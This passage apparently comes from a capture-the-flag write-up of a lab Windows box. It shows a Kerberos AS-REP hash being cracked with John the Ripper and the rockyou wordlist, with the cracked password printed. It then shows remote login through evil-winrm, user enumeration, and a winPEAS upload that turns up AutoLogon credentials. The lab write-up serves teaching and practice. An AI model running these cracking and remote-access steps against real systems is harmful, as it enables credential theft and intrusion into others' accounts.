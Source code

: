 We crack that hash using John and the Rockyou dictionary getting fsmith
password.

    :::text
    john hash -w=tools/password_lists/rockyou.txt
    Warning: detected hash type "krb5asrep", but the string is also recognized as "krb5asrep-aes-opencl"
    Use the "--format=krb5asrep-aes-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICALBANK)
    1g 0:00:00:19 DONE (2020-02-17 15:33) 0.05235g/s 551780p/s 551780c/s 551780C/s Thines..Thehulk2008
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

We connect on the box with our fsmith account using
[evil-winrm](https://github.com/Hackplayers/evil-winrm). And get the user flag
on his desktop.

    :::text
    ruby evil-winrm.rb -u fsmith -i 10.10.10.175 -p 'Thestrokes23'

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\FSmith\Documents> cat ../Desktop/user.txt
    1b5520b98d97cf17f24122a55baf70cf

# Getting root

## Getting svc_loanmgr

We take a look at the other users on the box using `net user`.

    :::text
    *Evil-WinRM* PS C:\Users\FSmith\Documents> net user

    User accounts for \\

    -------------------------------------------------------------------------------
    Administrator            FSmith                   Guest
    HSmith                   krbtgt                   svc_loanmgr
    The command completed with one or more errors.


We upload
[winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
from the Privilege Escalation Awesome Scripts SUITE and run it on the box.

It found some AutoLogon credetials for the account `svc_loanmgr`.
